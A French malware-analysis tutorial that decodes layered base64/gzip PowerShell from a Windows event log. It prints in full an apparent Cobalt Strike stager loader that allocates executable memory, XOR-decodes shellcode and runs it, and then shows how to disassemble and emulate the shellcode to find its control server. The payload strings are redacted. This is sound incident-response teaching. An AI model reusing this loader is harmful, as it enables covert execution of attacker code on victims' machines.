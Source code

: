 ```yaml
---
layout: default
permalink: /malwarelab/tuto/decoder-shellcode
title: Décoder les commandes Powershell d'un malware et le shellcode
tag: tuto_malware
category: post
---
```


## Décoder les commandes Powershell d'un malware et le shellcode

Lors de la compromission d'une machine, l'une des premières choses que l'on analyse sont les journaux d'évènement Windows. Ces derniers peuvent nous en dire long sur les actions de l'attaquant. Il est même parfois possible de reconstruire toute la chaîne d'exécution du malware, du vecteur d'entrée à l'exécution du binaire malveillant.

Nous allons ici nous intéresser ici à un malware s'installant sur une machine en se faisant passer pour un service. C'est une technique assez répendue afin d'outrepasser la vigilence de l'utilisateur.

Dans les journaux d'évènements, les traces de commandes Powershell peuvent être visibles dans plusieurs fichiers (Security, Microsoft-Windows-PowerShell/Operational... ). Ici, comme il s'agit d'un service qui s'installe, nous verrons les traces d'exécution dans le fichier Système.evtx (event id : 7045).

![Evtx_PS.png](/img/decode-shellcode/Evtx_PS.png)

Nous allons décoder cette chaîne en base64 simplement avec Python :

```python
>>> import io
>>> import base64

>>> data = "JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8[REDACTED]"

>>> base64.b64decode(data)
b'$\x00s\x00=\x00N\x00e\x00w\x00-\x00O\x00b\x00j\x00e\x00c\x00t\x00 \x00I\x00O\x00.\x00M\x00e\x00m\x00o\x00r\x00y\x00S\x00t\x00r\x00e\x00a\x00m\x00(\x00,\x00[\x00C\x00o\x00n\x00v\x00e\x00r\x00t\x00]\x00:\x00:\x00F\x00r\x00o\x00m\x00B\x00a\x00s\x00e\x006\x004\x00S\x00t\x00r\x00i\x00n\x00g\x00(\x00"\x00H\x004\x00s\x00I\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00A\x00K\x001\x00W\x007\x003\x00P\x00a\x00O\x00B\x00P\x00+\x00H\x00P\x004\x00K\x00f\x00c\x00i\x00M\x007\x00S\x00l\x00Q\x00E\x00n\x00J\x00p\x006\x00E\x001\x00m\x00y\x00m\x00/[REDACTED]'
```

A la vue du résultat, les nombreux "\x00" nous ammènent à penser que la chaîne est encodée en UTF-16. Un coup de <code>decode("UTF-16")</code> et le tour est joué !

```python
>>> base64.b64decode(data).decode("UTF-16")
'$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REEDACTED]"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();'
```

Nous obtenons un script Powershell qui semble contenir encore une couche d'encodage de base64.

Rebelotte, décodons la chaîne en base64 avec Python.

```python
>>> data = "H4sIAAAAAAAAAK1W73PaOBP+HP4KfciM7SlQEnJp6E1mym/MC4TGJKHlGEbIMjERFkiyw[REDACTED]"

>>> base64.b64decode(data)
b'\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00\xadV\xefs\xda8\x13\xfe\x1c\xfe\n}\xc8\x8c\xed)P\x12ri\xe8Mf\xcao\xcc\x0b\x84\xc6$\xa1\xe5\x18F\xc821\x11\x16H\xb2\xc1\\\xfb\xbf\xbf+\x1bs\xf4\x9a\xbcog\xee2\xc3D\x96vW\xbb\xcf>\xbb+\x87\xaa\x82\xa3\x84OT\x9f\xbb\x14\x15\x1e\xa9\x90>\x0f\xd0e.w\xde\xe0\xb6B\xb7\xe8\x93\x91\xf3\xc2\x80(\xbd\xad\x17\xb3\x05U\xb3\xb5\xe0d\x86]WP)\xd1\x9f\xb9\xb3!\x16x\x85\xcc\xf3\x08\x8b\xd9\x8a\xbb!\xa3y\x94|hA\xea\x86\x82Zgg\xb9\xb3d+\x0c$\xf6\xe8,\xc0\xca\x8f\xe8lE\xd53w%\\dN\xaa\xebu\x83\xaf\xb0\x1fL?~\xac\x87B\xd0@\xa5\xdf\xc56UU)\xe9j\xce|*M\x0b}CO\xcfT\xd0\xc2\xdd|I\x89B\x7f\xa2\xf3Y\xb1\xcd\xf8\x1c\xb3\x83X\\\xc7\xe4\x19\x02\xaa\x06\xae>\xebq\x82u\x04Eg\xcd|e\x1a\x7f\xfcaX\x93\xc2\xc5\xb4\xd8\xdc\x84\x98I\xd3pb\xa9\xe8\xaa\xe82fX\xe8\xbb\xa5[REDACTED]'
```

Pas d'UTF-16 cette fois. En revanche, la chaîne est compressée. Dans le code Powershell obtenu, la chaîne est décodée puis décompressée <code>IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress)</code>. Ce que nous allons donc reproduire avec notre chaîne fraîchement décodée .

```python
>>> zipped = io.BytesIO(base64.b64decode(data))
>>> f = gzip.GzipFile(fileobj=zipped)
>>> f.read()
b"Set-StrictMode -Version 2\n\n$DoIt = @'\nfunction func_get_proc_address {\n\tParam ($var_module, $var_procedure)\t\t\n\t$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')\n\t$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))\n\treturn $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))\n}\n\nfunction func_get_delegate_type {\n\tParam (\n\t\t[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,\n\t\t[Parameter(Position = 1)] [Type] $var_return_type = [Void]\n\t)\n\n\t$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])\n\t$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\t$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')\n\n\treturn $var_type_builder.CreateType()\n}\n\n[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0[REDACTED]')\n\nfor ($x = 0; $x -lt $var_code.Count; $x++) {\n\t$var_code[$x] = $var_code[$x] -bxor 35\n}\n\n$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))\n$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)\n[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)\n\n$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))\n$var_runme.Invoke([IntPtr]::Zero)\n'@\n\nIf ([IntPtr]::size -eq 8) {\n\tstart-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job\n}\nelse {\n\tIEX $DoIt\n}\n"
```

Nous obtenons alors un script Powershell contenant encore une fois une donnée encodée en base64. Cependant, une grande partie du code est lisible :

```powershell
Set-StrictMode -Version 2

$DoIt = @'
function func_get_proc_address {
	Param ($var_module, $var_procedure)		
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

	return $var_type_builder.CreateType()
}

[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0JfIQ8D4uwuIuTB03F0qHEzqGEfIvOoY1um41dpIvNzqGs7qHsDIvDAH2qoF6gi9RLcEuOP4uwuIuQbw1bXIF7bGF4HVsF7qHsHIvBFqC9oqHs[REDACTED]')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
'@

If ([IntPtr]::size -eq 8) {
	start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
	IEX $DoIt
}
```

Que fait ce script ? Grossomodo, alloue de la mémoire afin de pouvoir y stocker la chaîne encodée en base 64 et enfin l'exécuter. Une fois n'est pas coutume, décodons cette chaîne. Notons que la chaîne, une fois décodée est XORée avec 35.

Ce script est très utilisée notamment par les malwares afin d'envoyer un beacon CobaltStrike au serveur de contrôle - à savoir, pour lui envoyer les informations concernant la nouvelle machine tout juste infectée. Ce qui implique que dans notre dernière chaîne encodée/XORée, nous allons trouver un shellcode qui pourrait nous donner quelques informations utiles !

Une autre manière d'obtenir notre shellcode est d'exécuter la commande dans un terminale ISE :

```powershell
[Byte[]]$var_code = [System.Convert]::FromBase64String('38uqIyMjQ6rGEvFHqHETqHEvqHE3qFELLJRpBRLcEuOPH0JfIQ8D4uwuIuTB03F0qH[REDACTED]')

for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}

Write-Output $var_code
```

Nous obtenons de cette manière une chaîne décimale, que l'on va convertir en hexadecimal parce que les démcimales, ben c'est pour les humains.

```
252 232 130 0 0 0 96 137 229 49 192 100 139 80 48 139 82 12 [REDACTED]

fc e8 82 00 00 00 60 89 e5 31 c0 64 8b 50 30 8b 52 0c 8b 52 [REDACTED]
```

# Désassembler le shellcode

Pour comprendre ce que fait notre shellcode, nous pouvons le désassembler avec **shellen** (https://github.com/merrychap/shellen).

![dsm_shellcode1.PNG](/img/decode-shellcode/dsm_shellcode1.PNG)

Les DLLs système occupent toujours la même adresse en mémoire. De cette manière, connaissant leurs emplacements, les shellcodes appellent directement les fonctions qui les interessent en chargeant dynamiquement les fonctions voulues. Il est alors facile de repérer certains patterns. Votre bible à cet instant, c'est la doc Microsoft !

![dsm_internet.PNG](/img/decode-shellcode/dsm_internet.PNG)

Typiquement, notre shellcode va tout simplement ouvrir une connexion vers un serveur de crontrôle.

# Emuler le shellcode

Si certains ne sont pas à l'aise avec l'assembleur (no shame), il est alors possible d'émuler le shellcode avec **scdbg** (http://sandsprite.com/blogs/index.php?uid=7&pid=152)

![scdbg_shellcode.PNG](/img/decode-shellcode/scdbg_shellcode.PNG)

On bien nos fonction de chargement de wininet et de connexion au serveur de contrôle. En prime, scdbg permet de retrouver directement l'adresse ou l'IP utilisée pour la connexion ainsi que le port. Pratique !
